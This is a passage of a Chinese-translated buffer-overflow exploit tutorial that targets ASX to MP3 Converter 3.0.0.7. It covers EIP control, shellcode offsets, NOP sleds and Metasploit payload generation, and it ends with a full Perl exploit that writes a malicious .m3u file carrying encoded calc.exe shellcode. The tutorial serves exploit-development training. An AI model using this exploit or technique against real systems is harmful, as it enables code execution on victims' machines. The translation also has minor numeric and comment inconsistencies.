不幸的是，如果我们尝试“调用esp”，我们会得到类似的结果（都在非应用程序模块）。我坚持一定要用应用程序本身的指令



虽然没有应用程序模块包含必要的ESP寄存器的jmp / call指令，但我们很幸运在这个例子中有两个其他寄存器指向了我们的缓冲区，所以让我们尝试一个不同的寄存器来代替使用。

尝试搜索“call ebx”。这一次，结果包括来自应用程序模块的许多地址。

这些结果开头几个选择的问题是，它们都以空字节开头，如你所记得的，它将作为一个字符串终结符，阻止执行跟随我们的EIP覆盖的shellcode。在结果中进一步向下滚动，您应该看到一些不以空字节开始的内容：



我们选择一个 - 我将选择01C27228（来自MSA2Mcodec00.dll）。这是我们用来覆盖EIP的值。**重要！**：您的“call ebx”地址将与您在上面的屏幕截图中看到的地址有所不同，因为地址为“rebasing”。如果您重新启动机器，攻击将不再有效，您将不得不返回并选择另一个“call ebx”地址。

好的，所以我们已经成功地复制了应用程序崩溃，验证了对EIP的控制权，验证了我们对EIP的填充（26121），我们有一个寄存器（EBX）指向我们的缓冲区的不间断部分，并且有足够的长度地址到我们将用来覆写EIP的CALL EBX指令。让我们将所有这些融入到我们的漏洞利用代码中。



## 找到我们的shellcode的偏移量

现在我们的50000字节缓冲区包含：



EBX寄存器指向缓冲区的$ fill部分〜5,100字节的部分，但是在哪里？我们需要知道，所以我们聪明地放置我们的shellcode。我们可以使用几种不同的方法来确定我们的shellcode偏移量。

### 暂停程序执行以确定shellcode偏移量

看看我们的漏洞利用的一个截图

我所做的是用INT（中断）指令（十六进制中的\ xcc）构造缓冲区的$ fill部分。当应用程序进入INT指令时，它暂停执行。这对于与调试器一起使用非常有用，因为它允许我们在执行CALL EBX时准确查看我们缓冲区中的哪个位置。让我们来看看当我们打开包含这个缓冲区的更新的m3u文件时会发生什么：



您可以看到，当应用程序遇到INT指令并暂停时，EBX包含000FBBD4和EIP 000FBBD5（当前指令）。如果我们按照内存窗格中的后一个地址，并向上滚动，直到我们找到缓冲区中保存call ebx的地址000F729E。如果我们从000FBBD5中减去这个地址，我们得到0x4937或18743。这是我们的CALL EBX指令后的缓冲区的大概长度，我们将在后面放置我们的shellcode。我为什么说近似？有可能我们的缓冲区的一部分在写入内存时被破坏或删除，所以我们知道我们的原始缓冲区的$ fill部分至少有18743字节需要填充在我们的shellcode之前。我会告诉你如何在短时间内获得更准确的长度。

另一种看待它的方式是从我们的缓冲区开始应该放置我们的漏洞代码多远？为了找到答案，请在$ fill（junk + EIP = 26,125）之前的缓冲区中添加18743即44868。换句话说，至少我们的shellcode应该在缓冲区的第一个44686字节之后开始

使用中断来暂停程序执行并检查内存/寄存器是确定shellcode在缓冲区中的位置的一种快速方法，但有更精确的方法。

### 使用Metasploit pattern_offset.rb来确定shellcode的偏移量

Metasploit模式偏移脚本可以准确地告诉我们EBX指向我们基于模式的缓冲区（使用sister pattern_create.rb脚本创建）的位置。在崩溃/ EIP覆盖时观察我们的寄存器内容：

EBX从‘Fn9F’开始。使用metasploit模式偏移ruby脚本，我们可以确切知道它驻留在模式缓冲区中的哪个位置：



在我们的例子中，偏移是44877。在我将它加入到我们的脚本之前，让我告诉你如何用mona插件获得相同的结果。

### 使用mona来确定shellcode偏移量

您可以再次引用mona的findmsp结果来查看EBX中缓冲区的偏移量。



同样，您只会看到第一个偏移量，但此屏幕截图反映了我更新的代码，它确认了44877的偏移量。

现在我们知道了shellcode的偏移量，让我们相应地更新我们的漏洞缓冲区。假设偏移量为44877，前26125个字节将被我们缓冲区的“垃圾”部分（26,121字节）和我们的EIP覆盖（4个字节）占用。这留下了需要在我们的shellcode之前的18752个字节。让我们调整我们的脚本来测试一下：



我在这里做的是添加另一个变量“$nops”，它将在EIP覆盖之后和我们的shellcode之前保存缓冲区的部分，以便模拟我们的shellcode偏移量44877。我使$nops的长度比我们shellcode之前所需的数量多一个，并且都包含了INT指令，这样如果程序执行到$nops内的某处，它会立即暂停，我们可以看到。如果来自pattern_offset / mona的偏移量正确，则调用EBX应该完全落在缓冲区的$nops部分（18752 + 1）中的最后一条INT指令处。让我们用我们更新的m3u exploit文件运行程序，并看看Immunity：



正如你所看到的，完全落在我们最后的中断指令上，下一条要执行的指令是我们缓冲区的$ fill部分的第一个字节（即将到来的shellcode），这意味着由pattern_offset / mona提供的偏移是准确的。实际情况是，我们不必这么准确 - 我们原来的估计位置可能对我们很好，因为我们可以（也应该）总是在shellcode之前放置一个无害的缓冲区，以允许内存地址的偏差。

为此，我们通常使用所谓的无操作指令（NOP），其在x86架构上由十六进制值0x90表示。将这些NOP串联在一起形成通常称为NOP slide 或 NOP sled。当程序执行遇到这一系列的NOP时，它会“滑动”，直到它遇到一组可执行的指令，在我们的例子中就是我们的shellcode。

在构建缓冲区时，将EIP CALL / JMP指令置于某个NOPS系列的开始/中间位置通常是个好主意。由于我们有很大一部分可用于我们的shellcode，因此我会在它之前使用一个长度为18852的NOPs（18752个偏移量+一个额外的100个填充量）。我们的缓冲区的整个部分将用作我们的shellcode偏移量和我们的NOPs。

现在我们的缓冲区看起来如下（最后一部分保留给我们的shellcode）：



## 构造Shellcode

我们需要的最后一件事是构造一些实际的shellcode。当然，我们选择的shellcode取决于我们希望利用漏洞做什么......产生远程shell，添加管理用户等等。在我们的例子中，我们将选择一些良性的东西 - 打开Windows计算器（calc.exe）。接下来我们必须考虑的是，是否有任何字符会破坏我们的shellcode。例如，由于已经讨论过的原因，空字节在shellcode中可能会有问题。回车，换行和其他字符串终止符也是有问题的。也有可能是应用程序本身不能处理某些字符或更改某些字符的值（转换/编码等）。因此，shellcode的创建有时可能不会很简单。幸运的是，在这种情况下，shellcode的创建非常简单。

Metasploit有一个叫做msfpayload的命令行shellcode生成函数。您可以使用-l开关查看Windows特定的payload：

    msfpayload -l | grep windows

在我们的例子中，我们将使用windows / exec来启用任意命令，适合调用calc.exe。要使用msfpayload，您需要知道与每个payload相关的选项，您可以通过将有效负载名称附加到大写字母O来获取这些选项。

给定可用选项，payload的语法如下所示：

    msfpayload windows/exec CMD=calc.exe R

如果您使用“O”参数检查选项，您可能会注意到一个名为“EXITFUNC”的附加选项。该参数控制shellcode在完成时将如何退出。我没有为EXITFUNC指定一个值，这意味着将使用“线程”的默认值，这只会终止关联的线程。有效负载退出的其他选项是SEH（让异常处理程序管理退出）和进程（终止整个进程而不仅仅是线程）。EXITFUNC的选择会在漏洞终止时的行为方式上产生很大的变化，因此您可能需要进行试验。例如，如果您要将漏洞注入到必须在漏洞利用终止后继续运行的父进程中，则可能需要避免进程，而是坚持使用线程。同样的，

CMD选项不言自明，“R”代表Raw，它将输出我们的shellcode作为原始字节码。但是，我们需要在将shellcode合并到我们的脚本之前对shellcode进行编码。为此，我们可以将msfpayload输出传递给msfencode函数，如下所示：

    msfpayload windows/exec CMD=calc.exe R | msfencode -e x86/shikata_ga_nai -c 1 -t perl -b '\x00\x0a\x0d\xff'

-e开关告诉msfencode使用哪个编码器，-c开关告知要执行多少次迭代，-t开关指示输出格式，-b开关告诉编码器要排除哪些“坏”字符。该命令产生227字节的编码有效载荷。未来帖子会有编码的详细讨论。现在请记住，选择一个编码器可能会受到应用程序如何对用户输入进行编码（例如unicode）的影响，并且还可以用某些AV规避技术派上用场。

你也可以使用msfvenom模块实现同样的功能，如下所示：

    msfvenom -p windows/exec CMD=calc.exe -f perl -b '\x00\xff\x0a\x0d'

你任意使用哪一个（msfpayload w / msfencode或msfvenom）

你可以在这里找到更多关于使用msfpayload的信息：http ://www.offensive-security.com/metasploit-unleashed/Msfpayload 

## 把它放在一起

现在我们有了227字节的shellcode，我们的最终缓冲区看起来像这样（注意，如果我们想要使用不同的更大的shellcode，我们还有4796字节可用）

这是我们的最终漏洞利用代码：

    #!/usr/bin/perl
    #########################################################################
    # Exploit Title: ASX to MP3 Converter 3.0.0.7 (.m3u) Stack-Based BOF
    # Date: 12-13-2013
    # Exploit Author: Mike Czumak (T_v3rn1x) — @SecuritySift
    # Vulnerable Software/Version: ASX to MP3 Converter 3.0.0.7
    # Link: http://www.mini-stream.net/asx-to-mp3-converter/download/
    # Tested On: Windows XP SP3
    # Credits:
    # — Original POC by Cyber-Zone: http://www.exploit-db.com/exploits/8407/
    #########################################################################
    
    my $buffsize = 50000; # sets buffer size for consistent sized payload
    my $junk = “\x41” x 26121; # offset to EIP overwrite
    my $eip = pack(‘V’, 0x01C27228); # call ebp (MSA2Mcodec00.dll) – YOURS WILL DIFFER!
    my $nops = “\x90” x 18752;
    
    # msfpayload windows/exec CMD=calc.exe R |
    # msfencode -e x86/shikata_ga_nai -c 1 -t perl -b ‘\x00\x0a\x0d\xff’
    # size 227
    my $shell =
    “\xba\x8d\xf5\x02\x51\xda\xc0\xd9\x74\x24\xf4\x5b\x2b\xc9” .
    “\xb1\x33\x31\x53\x12\x03\x53\x12\x83\x66\x09\xe0\xa4\x84” .
    “\x1a\x6c\x46\x74\xdb\x0f\xce\x91\xea\x1d\xb4\xd2\x5f\x92” .
    “\xbe\xb6\x53\x59\x92\x22\xe7\x2f\x3b\x45\x40\x85\x1d\x68” .
    “\x51\x2b\xa2\x26\x91\x2d\x5e\x34\xc6\x8d\x5f\xf7\x1b\xcf” .
    “\x98\xe5\xd4\x9d\x71\x62\x46\x32\xf5\x36\x5b\x33\xd9\x3d” .
    “\xe3\x4b\x5c\x81\x90\xe1\x5f\xd1\x09\x7d\x17\xc9\x22\xd9” .
    “\x88\xe8\xe7\x39\xf4\xa3\x8c\x8a\x8e\x32\x45\xc3\x6f\x05” .
    “\xa9\x88\x51\xaa\x24\xd0\x96\x0c\xd7\xa7\xec\x6f\x6a\xb0” .
    “\x36\x12\xb0\x35\xab\xb4\x33\xed\x0f\x45\x97\x68\xdb\x49” .
    “\x5c\xfe\x83\x4d\x63\xd3\xbf\x69\xe8\xd2\x6f\xf8\xaa\xf0” .
    “\xab\xa1\x69\x98\xea\x0f\xdf\xa5\xed\xf7\x80\x03\x65\x15” .
    “\xd4\x32\x24\x73\x2b\xb6\x52\x3a\x2b\xc8\x5c\x6c\x44\xf9” .
    “\xd7\xe3\x13\x06\x32\x40\xeb\x4c\x1f\xe0\x64\x09\xf5\xb1” .
    “\xe8\xaa\x23\xf5\x14\x29\xc6\x85\xe2\x31\xa3\x80\xaf\xf5” .
    “\x5f\xf8\xa0\x93\x5f\xaf\xc1\xb1\x03\x2e\x52\x59\xea\xd5” .
    “\xd2\xf8\xf2”;
    
    my $sploit = $junk.$eip.$nops.$shell; # sploit portion of buffer
    my $fill = “\x43” x ($buffsize – (length($sploit))); # filler for consistency
    my $buffer = $sploit.$fill; # build final buffer
    
    # write the exploit buffer to file
    my $file = “asx2mp3.m3u”;
    open(FILE, “>$file”);
    print FILE $buffer;
    close(FILE);
    print “Exploit file created [” . $file . “]\n”;
    print “Buffer size: ” . length($buffer) . “\n”;

生成最终的.m3u文件并用ASX To MP3 Converter打开它，你应该看到：

如果calc没有打开，请确保您正在运行C：\的根目录下的.m3u文件，并且已将该文件命名为asx2mp3.m3u。请记住，由于文件路径影响成功执行以及使用实现地址重定位的应用程序模块（DLL），因此此漏洞远未完善。我们将在第3部分中看看如何解决这两个问题。

## 结论

这就是这个系列的第2部分。希望您现在了解基于堆栈的缓冲区溢出的基本知识，包括为什么它是一个问题，它如何在软件应用程序中表现出来，以及如何利用它来强制执行任意代码。

在第3部分中，我将继续讨论基于栈的溢出问题，以及如何解决基本问题，如动态EIP偏移和稍微更复杂的跳转到shellcode。我将再次开始使用ASX-MP3应用程序，并展示一种方法，我们可以克服由于在内存中包含文件路径而导致的EIP偏移量的变化。

